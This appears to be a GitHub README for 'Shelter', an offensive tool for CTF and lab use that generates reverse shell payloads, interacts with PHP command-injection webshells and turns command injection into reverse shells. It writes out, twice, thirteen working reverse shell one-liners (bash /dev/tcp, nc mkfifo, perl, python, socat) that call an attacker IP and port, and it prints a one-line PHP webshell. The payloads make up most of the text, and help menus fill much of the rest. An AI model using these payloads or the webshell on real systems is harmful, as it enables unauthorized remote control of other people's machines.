




# Shelter
***

Shelter the magical Shell Handler.

## What is it ?

Shelter is a new way to catch reverse shell's and also reduces the effort of visiting `pentestmonkey` and `highoncoffee`frequently for reverse shell payloads and changing of the `Attacker-IP` and `Attacker-Port` everytime.

Shelter is made to perform in 4 mode's. The required mode can be easily set by passing the argument of the mode to the script.
- **rev** : Generates and copies reverse shell payload with `IP` and `port` set to clipboard and also starts up a netcat.
- **web** : Webshell interactor for GET parameter command injection in php.
- **webrev** : Convert's a classic GET parameter command injection in php to a reverse shell.
- **host** : Will host post exploitation module's like `pspy`,`linpeas` etc. from the attackbox using `python http.server` or `updog` and copy the web url to the clipboard. 

**This tool is focused towards the solver's of `hackthebox`, `tryhackme` or any other labs with `vpn` connection.**

***
## ✨ Features
### rev Module
- Generate and copy revshell payload with `ATTACKERIP`[default: tun0] and `ATTACKERPORT`. 
- Start's Up a netcat listener on that port for catching the shell.
- Support's `13` language's of reverse shell payload's all tested.
**Only Linux payload's are supported for now.**
- Reduces the hassle of visiting `pentestmonkey` or `highoncoffee` reverse shell cheatsheet for geting reverse shell payloads and changing the `IP` and `PORT` on it everytime.
**This tools is not claiming to be better than pentestmonkey or highoncoffee by any means.**
### web Module
- Reduces the hassle of writting commands in `burpsuite` in time of php parameter command injection and url encoding every time.
- Automatically, URL encodes the command before sending it.

### webrev Module
- Converts a dumb GET parameter command injection to a reverse shell.
- Generates a reverse shell payload with set `ATTACKERIP`[default : tun0] and `ATTACKERPORT` and sends it to webserver url encoded.
- Starts up a netcat listner on the given `ATTACKERPORT` for catching the shell.
### host Module[Coming Soon...]
- It will create a `www` directory with `phpreverseshell`, `powershell reverseshell`, while setting the `ATTACKERIP` and `ATTACKERPORT` and post exploitation tools like `pspy`,`linpeas`,`winpeas` etc. using `updog` or classic `python http.server`.
- It will also copy the url of the file hosted from the server to the clipboard for easy pasting and `wgetting`
***
## Usage
### Rev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev --help
usage: shelter.py rev [-h] {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...

optional arguments:
  -h, --help            show this help message and exit

Available Payloads:
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'
    py2                 python -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py                  python3 -c 'import
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py rev py --help
usage: shelter.py rev py [-h] [--nohandler] [-i 127.0.0.1] [-p 8888]

optional arguments:
  -h, --help    show this help message and exit
  --nohandler   Copies only the revshell payload. [Does not start handler]
  -i 127.0.0.1  IP for reverse shell.
  -p 8888       PORT for reverse shell.
```

#### Taking a reverse shell from a docker container.


### Web Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py web --help
usage: shelter.py web [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL

positional arguments:
  URL           Target URL [http://127.0.0.1/cmd.php]

optional arguments:
  -h, --help    show this help message and exit
  -f F          Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM  GET parameter to send commands.[Default: cmd]
  --ssl         Force HTTPS
  --nossl       Force downgrade to HTTP
```

By default it assume's filename `cmd.php` and GET parameter `cmd` if not specified as an argument.

The php code responsible for getting a simple GET parameter webshell.
```php
root@6a647b5a3d5f:~# cat cmd.php 
<?php system($_GET[cmd]); ?>
```
#### Webshell on a docker container.


### Webrev Module
#### Help Menu
```python
┌─[root@Xyan1d3]─[/opt/github/shelter]
└──╼ # ./shelter.py webrev --help                                                                                                                                        
usage: shelter.py webrev [-h] [-f F] [-param PARAM] [--ssl] [--nossl] URL {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat} ...
                                                                                    
positional arguments:                                                                                                                                                    
  URL                   Target URL [http://127.0.0.1/cmd.php]                       
                                          
optional arguments:                                                                 
  -h, --help            show this help message and exit
  -f F                  Filename of the webshell [Default : cmd.php]. Incase you enter only ip in url arg.
  -param PARAM          GET parameter to send commands.[Default: cmd]                                                                                                    
  --ssl                 Force HTTPS                                                 
  --nossl               Force downgrade to HTTP
  
Available Payloads:                                                                                                                                                      
  {bash,bashi,bash196,bashrl,bash5,bashudp,nc_mkfifo,perl,py2,py,py2export,pyexport,socat}                                                                               
    bash                echo base64_encoded_bash-i_payload |base64 -d|bash          
    bashi               bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    bash196             0<&196;exec 196<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT; bash <&196 >&196 2>&196                                                                     
    bashrl              exec 5<>/dev/tcp/ATTACKER_IP/ATTACKER_PORT;cat <&5 | while read line; do $line 2>&5 >&5; done                                                    
    bash5               bash -i 5<> /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0<&5 1>&5 2>&5
    bashudp             bash -i >& /dev/udp/ATTACKER_IP/ATTACKER_PORT 0>&1                                                                                               
    nc_mkfifo           rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc ATTACKER_IP ATTACKER_PORT >/tmp/f                                                             
    perl                perl -e 'use Socket;$i="ATTACKER_IP";$p=ATTACKER_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton
                        ($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'                                                              
    py2                 python -c 'import                                                                                                                                
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py                  python3 -c 'import                                          
                        socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",ATTACKER_PORT));os.dup2(s.fileno(),0);          
                        os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'                                                                       
    py2export           export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python -c 'import
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in                    
                        (0,1,2)];pty.spawn("bash")'
    pyexport            export RHOST="ATTACKER_IP";export RPORT=ATTACKER_PORT;python3 -c 'import                                                                      
                        sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in
                        (0,1,2)];pty.spawn("bash")
    socat               socat TCP:ATTACKER_IP:ATTACKER_PORT EXEC:'bash',pty,stderr,setsid,sigint,sane
```
#### Revshell on a docker container.


***
# Disclaimer
Don't use this script for any malicious or illegal purpose's. The Author or any contributor of this repository or tool is not responsible for any of those activities.
